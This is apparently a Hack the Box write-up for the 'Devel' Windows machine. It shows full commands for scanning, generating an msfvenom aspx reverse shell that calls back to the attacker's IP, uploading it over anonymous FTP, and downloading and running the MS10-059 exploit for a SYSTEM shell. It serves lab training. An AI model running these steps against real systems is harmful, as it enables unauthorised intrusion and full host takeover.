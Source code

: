 ```yaml
---
title: Devel
tags: windows
description: Write-up for Hack the Box - Devel
---
```


![image](assets/79370040-fcc98380-7f1f-11ea-8333-a85c36c3d15f.png)

## Overview

Devel is a windows box running an ftp server that allowed read/write access to anonymous users to the root of the webserver folder. Initial footbold was gained by uploading an aspx reverse shell and accessing it via port 80 which provided initial access to the box. I then used Windows-Exploit-Suggester to to which showed it was vulnerable to MS10-59, upon running I was able to create a reverse shell as 'nt authority\system'.

## Enumeration

**Software**
* Microsoft Windows 7 Enterprise
* IIS 7.5

**Port Scan**
```
nmap -vv -Pn -sT -A -p- 10.10.10.5 -oN /root/boxes/devel/_full_tcp_nmap.txt
```
* 21/tcp - Windows IIS ftp
* 80/tcp - Microsoft IIS httpd 7.5

**Directory/File Brute Force***
```
gobuster dir -u http://10.10.10.5 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x asp,aspx -t 40
```

_no results_

## Steps (user)

Reviewing the nmap results showed that two ports are open: 80 (http) and 21 (ftp). Browsing to http://10.10.10.5 showed the default IIS 7 page. Since gobuster didn't turn up any interesting results I moved on to port 21. 

> The nmap scan showed that the ftp server allowed anonymous login. 

![image](assets/81018650-f64d6e00-8e32-11ea-84c4-6e100d1d4c6b.png)

> nmap with -A combines -O, -sV, and -sC which Enable OS detection, version detection, and script scanning.

Being able to read is good but being able to write is better. As a test I created a file to test my ability to upload/write and was successful.

```
echo 'this is a test' > test.txt
```

![image](assets/81019777-5c3af500-8e35-11ea-9d9f-91314bdc8915.png)

![image](assets/81019834-7bd21d80-8e35-11ea-87eb-f515ea7146f3.png)

Since I now had confirmation that I could upload files to the ftp server and execute them on the website, I proceeded to create a reverse shell payload in aspx format with msfvenom

```
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.18 lport=4200 -f aspx > rshell.aspx
```

I set up a netcat listener (rlwrap nc -lvnp 4200) and uploaded the file to the ftp server.

```
ftp 10.10.10.5
username: anonymous
password: blank
put rshell.aspx
```

After browsing to rshell.aspx I received a callback to my netcat listener.

![image](assets/81020403-ba1c0c80-8e36-11ea-8095-6d86a7a744ee.png)

## Steps (root/system)

Since this is an older box I used Windows Exploit Suggester. For newer boxes there are other options such as wesng, Sherlock, or Watson.

According to wesng github page:

> I developed WES-NG because while GDSSecurity's Windows-Exploit-Suggester worked excellently for operating systems in the Windows XP and Windows Vista era, GDSSecurity's Windows-Exploit-Suggester does not work for operating systems like Windows 10 and vulnerabilities published in recent years. This is because Microsoft replaced the Microsoft Security Bulletin Data Excel file [1] on which GDSSecurity's Windows-Exploit-Suggester is fully dependent, by the MSRC API [2]. The Microsoft Security Bulletin Data Excel file has not been updated since Q1 2017, so later operating systems and vulnerabilities cannot be detected. 

Moving forward with wes; this tool requires the output of the systeminfo command which I pasted to a file called "sysinfo.txt"

> [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) github repo.


```
./windows-exploit-suggester.py -l --database ~/tools/Windows-Exploit-Suggester/2019-11-17-mssb.xls --systeminfo sysinfo.txt
```

![image](assets/81022003-86db7c80-8e3a-11ea-9ff6-8a61d34d56ac.png)

> In the results [E] means exploitdb POC, and [M] means metasploit module.

I didn't have any luck with MS11-011 so I tried MS10-059. First I downloaded MS10-059 to my local machine

```
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe
```

I used the anonymous ftp server to upload the file and started a netcat listener on a new port (rlwrap nc -lvnp 4201)

```
ftp 10.10.10.5
username: anonymous
password: blank
binary
put MS10-059.exe
```

I executed ms10-059.exe, providing my box's IP and port as parameters and received a shell as 'nt authority\system'

```
ms10-059.exe 10.10.14.18 4201
```

![image](assets/81023823-a1642480-8e3f-11ea-86cf-a34219d3d1c7.png)
